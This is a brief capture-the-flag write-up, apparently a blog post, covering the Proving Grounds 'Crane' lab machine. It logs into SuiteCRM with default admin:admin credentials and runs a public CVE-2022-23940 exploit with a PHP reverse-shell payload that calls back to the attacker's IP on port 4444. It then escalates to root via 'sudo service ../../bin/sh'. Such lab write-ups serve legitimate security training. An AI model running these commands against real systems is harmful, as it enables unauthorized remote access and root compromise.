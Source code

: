 ```yaml
---
layout: post
title:  "Write Up: Proving Grounds Practice - Crane"
date:   2024-07-29 20:05:23 -0400
categories: oscp proving-grounds TJNull
---
```


192.168.194.146
me - 192.168.45.213

Hitting the site in a web browser I was able to log in using admin:admin and from there I was able to find an about page that has the version information for SuiteCRM

http://192.168.194.146/index.php?module=Home&action=index
admin : admin

Version 7.12.3

Sugar Version 6.5.25 (Build 344)

SuiteCRM - Open source CRM for the world


Doing a little digging online it looks like there is an exploit I can use for this here: https://medium.com/@_crac/cve-2022-23940-rce-in-suitecrm-90df53980d8c

POC - https://github.com/manuelz120/CVE-2022-23940

python3 exploit.py -h http://192.168.194.146 -u admin -p admin --payload "php -r '\$sock=fsockopen(\"192.168.45.213\", 4444); exec(\"/bin/sh -i <&3 >&3 2>&3\");'"


got reverse shell

/var/www/local.txt
=======================================================================================================================



https://gtfobins.github.io/gtfobins/service/



    sudo service ../../bin/sh
